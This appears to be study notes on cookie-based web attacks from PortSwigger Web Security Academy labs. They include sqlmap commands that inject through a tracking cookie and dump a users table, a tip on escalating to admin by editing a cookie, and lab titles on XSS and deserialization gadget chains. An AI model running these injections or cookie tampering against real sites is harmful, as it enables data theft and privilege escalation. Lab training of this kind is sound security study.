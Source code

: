 ```
sqlmap -u 'https://LAB-ID.web-security-academy.net:443/filter?category=Accessories' --skip='category' --random-agent --time-sec 10 --cookie='TrackingId=eKLTgodSyebWTRiH*;session=AAA4L6ovsQN6tiZgGOpOIVkN0SSdxDBc' --dbs
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net:443/filter?category=Accessories' --skip='category' --random-agent --time-sec 10 --cookie='TrackingId=eKLTgodSyebWTRiH*;session=AAA4L6ovsQN6tiZgGOpOIVkN0SSdxDBc' -D public --tables  
```
```
sqlmap -u 'https://LAB-ID.web-security-academy.net:443/filter?category=Accessories' --skip='category' --random-agent --time-sec 10 --cookie='TrackingId=eKLTgodSyebWTRiH*;session=AAA4L6ovsQN6tiZgGOpOIVkN0SSdxDBc' -D public -T users --dump
```

   - Blind SQL injection with out-of-band data exfiltration

   - Blind SQL injection with out-of-band interaction


### * "Admin:False" Cookie
   - **_User role controlled by request parameter_**
     
       Tip: In this lab by changing the Admin:false cookie to Admin:true the server grants us Admin privileges right away. However, some servers have validation techniques that don't accept Admin:true unless it was issued by the server itself. In this case we search for app functionalities that aren't expecting already authenticated users to use them (like pre-login forgot password functionality). If vulnerable they might only validate the username part of the cookie and not the login status part. And so they issue authenticated cookies for random users.


### * Stay logged in Cookie
   -Authentication bypass via encryption oracle (use the server's encrypt and decrypt mechanism to decrypt the stay-logged-in cookie and see its structure, to craft a stay-logged in cookie for admin user)

### * Session Cookies
   - Stored XSS in Session Cookie

   - Using application functionality to exploit insecure deserialization

   - Modifying serialized objects

   - Modifying serialized data types

   - Arbitrary object injection in PHP

   - Exploiting Java deserialization with Apache Commons

   - Exploiting PHP deserialization with a pre-built gadget chain

   - Exploiting Ruby deserialization using a documented gadget chain

   - Developing a custom gadget chain for Java deserialization (

   - Developing a custom gadget chain for PHP deserialization
